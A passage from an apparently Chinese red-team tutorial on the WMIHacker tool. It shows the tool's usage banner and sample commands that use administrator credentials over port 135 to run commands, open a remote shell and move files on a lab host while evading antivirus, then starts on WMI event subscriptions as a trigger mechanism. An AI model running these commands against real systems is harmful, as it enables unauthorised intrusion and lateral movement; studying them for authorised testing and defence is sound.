 ### WMIHacker

免杀横向渗透远程命令执行，常见的`WMIEXEC`、`PSEXEC`执行命令是创建服务或调用`Win32_Process.create`执行命令，这些方式都已经被杀软拦截，`WMIHacker`是一款用于远程主机连接工具，通过`135`端口进行命令执行，无需`445`端口进行文件传输。

执行模式包括`/cmd`、`/shell`、`/upload`、`/download`，分别指执行命令、模拟`Shell`、上传文件、下载文件。

```powershell
C:\Users\administrator\Desktop>cscript //nologo WMIHACKER_0.6.vbs

__          ____  __ _____   _    _          _____ _  ________ _____
\ \        / /  \/  |_   _| | |  | |   /\   / ____| |/ /  ____|  __ \
 \ \  /\  / /| \  / | | |   | |__| |  /  \ | |    | ' /| |__  | |__) |
  \ \/  \/ / | |\/| | | |   |  __  | / /\ \| |    |  < |  __| |  _  /
   \  /\  /  | |  | |_| |_  | |  | |/ ____ \ |____| . \| |____| | \ \
    \/  \/   |_|  |_|_____| |_|  |_/_/    \_\_____|_|\_\______|_|  \_\
                              v0.6beta       By. Xiangshan@360RedTeam
Usage:
        WMIHACKER.vbs  /cmd  host  user  pass  command GETRES?
        WMIHACKER.vbs  /shell  host  user  pass
        WMIHACKER.vbs  /upload  host  user  pass  localpath remotepath
        WMIHACKER.vbs  /download  host  user  pass  localpath remotepath

          /cmd          single command mode
          host          hostname or IP address
          GETRES?       Res Need Or Not, Use 1 Or 0
          command       the command to run on remote host
```

```powershell
# 有命令回显执行方式
cscript WMIHACKER_0.6.vbs /cmd 172.16.94.187 administrator "Password!" "systeminfo" 1

# 无命令回显
cscript WMIHACKER_0.6.vbs /cmd 172.16.94.187 administrator "Password!" "systeminfo > c:\1.txt" 0

# 模拟Shell模式
cscript WMIHACKER_0.6.vbs /shell 172.16.94.187 administrator "Password!" 

# 文件上传-复制本机calc.exe到远程主机c:\calc.exe
cscript wmihacker_0.4.vbe /upload 172.16.94.187 administrator "Password!" "c:\windows\system32\calc.exe" "c:\calc"

# 文件下载-下载远程主机calc.exe到本地c:\calc.exe
cscript wmihacker_0.4.vbe /download 172.16.94.187 administrator "Password!" "c:\calc" "c:\windows\system32\calc.exe"
```

## WMI事件订阅的利用

`WMI`提供了强大的事件处理系统，几乎可以用于对操作系统上发生的任何事件做出响应。

例如，当创建某进程时，通过`WMI`事件订阅来执行预先设置的脚本。其中，触发事件的具体条件被称为“事件过滤器”（`Event Filter`），如用户登录、新进程创建等；对指定事件发生做出相应的称为“事件消费者”（`Event Consumer`），包括一系列具体的操作，如运行脚本、记录日志、发送邮件等。在部署事件订阅时，需要分别构建`Filter`和`Consumer`两部分，并将两者绑定在一起。
